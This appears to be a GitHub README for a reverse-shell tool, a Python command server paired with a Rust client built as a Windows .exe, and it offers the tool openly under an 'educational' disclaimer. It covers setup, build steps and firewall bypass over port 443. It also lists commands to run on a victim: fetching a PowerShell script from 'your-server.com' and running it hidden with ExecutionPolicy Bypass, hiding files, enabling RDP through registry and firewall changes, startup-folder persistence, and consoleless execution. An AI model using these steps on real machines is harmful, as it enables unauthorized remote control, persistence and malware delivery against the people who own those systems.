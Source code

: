 ```yaml
---
```markdown
# 🐍 Reverse Shell (Python Server & Rust Client)

This project is a simple yet effective reverse shell, consisting of a Python server for managing connections and a Rust-based client for the Windows operating system. This tool is designed for **educational purposes and penetration testing**.

## 📋 Features

- ✅ **Python Server:** Lightweight and runnable on Linux-based operating systems.
- 🔐 **Encrypted Communication:** Utilizes the `pycryptodome` library for data encryption.
- 🖥️ **Rust Client:** Compiles to a small, fast `.exe` executable for Windows.
- 📡 **Session Management:** Capable of handling multiple concurrent connections.
- 🛡️ **Firewall Bypass:** Uses port 443 to reduce the likelihood of traffic being blocked.

---
```


## 🚩 Prerequisites

### For the Server (Ubuntu Server)

- An Ubuntu server or virtual machine with a **static IP address**.
- Python 3 installed.
- `pip` (Python's package installer) installed.

### For Compiling the Client (Windows)

- The **Rust** programming language installed. (You can download it from [here](https://www.rust-lang.org/tools/install))
- **Microsoft Visual Studio Build Tools** with **C++** support installed. (You can download it from [here](https://visualstudio.microsoft.com/visual-cpp-build-tools/))

---

## 🛠 Server Installation & Setup

Follow these steps on your Ubuntu server:

1.  First, update your system and install `pip`:
    ```bash
    sudo apt update
    sudo apt install python3-pip
    ```

2.  Open the desired port (443 in this example) in your firewall:
    ```bash
    sudo ufw allow 443
    ```

3.  Clone the project from GitHub and navigate into its directory.

4.  Install the required Python libraries. (Ensure a `requirements.txt` file exists in the project and includes `pycryptodome`.)
    ```bash
    pip install -r requirements.txt
    ```

5.  Run the server:
    ```bash
    python3 server.py
    ```
    or
    ```bash
    python server.py
    ```

At this point, the server is active and will listen for incoming client connections. You can type `help` at any time in the server terminal to see the list of available commands.

---

## 🔨 Building the Client Executable (Exe)

To build the `.exe` file that will run on the target Windows system, follow these steps:

1.  Ensure you have installed the prerequisites for **Rust** and **Visual Studio Build Tools**.

2.  Navigate to the client directory in the project:
    ```bash
    cd reverse_shell
    ```

3.  Open the `main.rs` file with a text editor.

4.  Find the following line and replace it with your Linux server's IP address and port. (Using port 443 is recommended)
    ```rust
    let server_addr = "YOUR_SERVER_IP:443"; // <-- Replace with your server's IP
    ```

5.  Run the following command to compile the project:
    ```bash
    cargo build --release --target x86_64-pc-windows-msvc
    ```

6.  The executable `.exe` file will be created at the following path:
    ```
    target\x86_64-pc-windows-msvc\release\reverse_shell.exe
    ```

> **⚠️ Important Warning:** Never run the `reverse_shell.exe` file on your own machine! This file is designed to be executed on the target system. For testing, always use a virtual machine.

---

## 📖 How to Use

1.  Run the server on your Ubuntu VM as described in the setup instructions.
2.  Transfer the compiled `reverse_shell.exe` file to the target Windows machine.
3.  Execute the `reverse_shell.exe` file on the target system.
4.  Immediately after execution, a new connection will appear in your server's terminal.

---

## 🎯 Commands

### Server Commands (For Managing Connections)

Enter these commands in the Python server terminal:

- `help`: Displays the list of available commands.
- `sessions`: Shows all active sessions (connections).
- `connect <id>`: Connects to a specific session to send commands. (e.g., `connect 1`)
- `info <id>`: Retrieves basic system information for a specific session.
- `exit`: Shuts down the server completely.

### Example Client-Side Commands (To Run on the Target)

After connecting to a session using the `connect` command, you can send the following commands to perform various actions on the target system:

#### Download and Execute a PowerShell Script
```cmd
curl -o "script.ps1" "http://your-server.com/script.ps1" 
powershell -WindowStyle Hidden -ExecutionPolicy Bypass -File "script.ps1"
```

#### Hide a File Completely
```cmd
attrib +h +s "C:\path\to\your\file.ext"
```
> To unhide files hidden with this method, you must enable "Hidden items" and uncheck "Hide protected operating system files" in File Explorer's View options.

#### Enable Windows Remote Desktop (RDP)
```cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
sc config TermService start= auto
sc start TermService
netsh advfirewall firewall set rule group="Remote Desktop" new enable=Yes
```

#### Copy File to Startup Folder (for Persistence)
The startup folder path is:
```
C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

#### Run Executable Without a Console Window
```cmd
start /B reverse_shell.exe
```

---

## ⚖️ Disclaimer

This tool is developed solely for **educational** and **security research** purposes. Any misuse, illegal, or unauthorized use of this code is the sole responsibility of the user. The developer assumes no liability for any potential misuse.
```

---

**نکته کلیدی:** مطمئن شوید که فایل را در گیت‌هاب ذخیره کرده و سپس صفحه را رفرش کنید. دکمه کپی فقط در نمای رندر شده‌ی گیت‌هاب نمایش داده می‌شود، نه در ویرایشگر متن شما.

